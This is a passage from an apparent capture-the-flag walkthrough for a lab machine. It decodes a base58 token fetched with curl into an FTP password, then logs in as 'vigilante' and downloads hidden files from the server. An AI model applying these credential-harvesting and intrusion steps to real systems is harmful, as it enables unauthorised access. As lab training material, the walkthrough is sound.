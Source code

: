 wfuzz has found a valid file: `green_arrow.ticket`

## #4 - what is the FTP Password?

*Hint: Looks like base? https://gchq.github.io/CyberChef/*

Let's check where this leads to:

~~~
$ curl -s http://10.10.97.18/island/2100/green_arrow.ticket

This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
~~~

In base58, the string decodes to: `!#th3h00d`, which looks like a password.

Answer: `!#th3h00d`

## #5 - what is the file name with SSH password?

We can now login against the FTP service with `vigilante:!#th3h00d` (remember the username found during the reconnaissance phase?)

~~~
$ ftp 10.10.97.18
Connected to 10.10.97.18 (10.10.97.18).
220 (vsFTPd 3.0.2)
Name (10.10.97.18:unknown): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
227 Entering Passive Mode (10,10,97,18,83,105).
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 .
drwxr-xr-x    4 0        0            4096 May 01 05:38 ..
-rw-------    1 1001     1001           44 May 01 07:13 .bash_history
-rw-r--r--    1 1001     1001          220 May 01 05:38 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01 05:38 .bashrc
-rw-r--r--    1 0        0            2483 May 01 07:07 .other_user
-rw-r--r--    1 1001     1001          675 May 01 05:38 .profile
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
226 Directory send OK.
ftp> get .other_user
local: .other_user remote: .other_user
227 Entering Passive Mode (10,10,97,18,61,173).
150 Opening BINARY mode data connection for .other_user (2483 bytes).
226 Transfer complete.
2483 bytes received in 0.0029 secs (857.39 Kbytes/sec)
ftp> mget *
~~~
